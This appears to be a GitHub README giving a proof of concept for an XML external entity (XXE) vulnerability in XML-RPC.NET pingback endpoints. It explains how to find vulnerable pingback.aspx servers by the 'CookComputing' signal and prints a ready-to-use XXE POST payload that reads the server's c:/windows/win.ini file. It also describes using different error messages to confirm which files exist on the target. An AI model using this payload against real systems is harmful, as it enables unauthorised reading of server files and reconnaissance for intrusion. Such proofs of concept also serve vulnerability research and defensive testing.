 # xmlrpc.net-poc
Proof of Concept (PoC) for XML-RPC.NET XXE

1. Identify a vulnerable pingback.aspx endpoint. "CookComputing" tends to be a strong signal.

![xmlrpc-xxe-1](https://user-images.githubusercontent.com/3679232/207164709-a158b1c6-3b73-480f-b01b-c33bc1daf2d9.png)

2. Leverage the following XXE POST payload:

'''
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
'''

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207167707-80d2eb52-6402-496e-acb0-12ed9ef30400.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)


